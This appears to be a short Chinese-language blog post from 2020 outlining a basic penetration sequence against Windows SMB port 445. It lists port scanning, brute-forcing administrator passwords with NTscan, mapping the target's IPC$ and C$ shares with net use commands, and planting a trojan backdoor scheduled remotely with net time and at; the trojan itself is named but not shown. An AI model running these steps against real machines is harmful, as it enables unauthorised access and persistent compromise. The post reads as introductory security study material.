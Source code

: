```yaml
---
layout:     post
title:     445端口的利用
subtitle:  渗透测试简单流程、445端口的利用
date:       2020-5-2
author:     One-Punch-Man
header-img: "img/man-6.jpg"
catalog: true
tags: 
     - 网络安全
     - 基础知识
---
```


# 445端口的利用

1. 扫描端口的开放；
   - `telnet IP地址 端口`：手工测试端口是否开放。
   - 使用扫描软件`scanport`、`namp`。
2. 使用`NTscan`软件暴力破解账户和密码；
3. 建立磁盘映射；
   - `net use \\IP地址\ipc$ 密码 /user:administrator`：与目标空连接进行磁盘映射，可以对对方所有的磁盘进行操作。
   - `net use f: \\IP地址\c$ 密码 /user:administrator`：使用`f盘`作为目标`C盘`的映射地址。
   - `net use * /del`:删除所有的磁盘映射。
4. 制作木马
5. 植入木马（留后门）
6. 设计任务计划
   1. `net time \\IP地址`
   2. `at \\IP地址 时间 "路径"`
